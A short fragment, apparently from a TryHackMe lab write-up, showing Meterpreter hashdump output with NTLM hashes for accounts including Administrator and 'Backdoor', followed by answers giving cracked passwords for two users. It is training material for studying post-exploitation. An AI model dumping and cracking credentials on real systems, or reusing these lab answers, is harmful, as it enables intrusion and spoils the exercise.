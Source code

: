 ```

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:52745740e9a05e6195731194f03865ea:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
joe:1000:aad3b435b51404eeaad3b435b51404ee:878d8014606cda29677a44efa1353fc7:::
chris:1001:aad3b435b51404eeaad3b435b51404ee:e0b6050c7280bf4a7bee599cf374fd80:::
tryhackme:1002:aad3b435b51404eeaad3b435b51404ee:0c7ba4684821cd349e327896d9db4474:::
Backdoor:1003:aad3b435b51404eeaad3b435b51404ee:16731c9f238c5c2b4f1294b3fa875254:::


meterpreter >
```

1. What's Chris decrypted NTLM?

`chris:1001:aad3b435b51404eeaad3b435b51404ee:e0b6050c7280bf4a7bee599cf374fd80:::`

`mypass123`

2. What's Joe decrypted NTLM?

`joe:1000:aad3b435b51404eeaad3b435b51404ee:878d8014606cda29677a44efa1353fc7:::`

`secret`
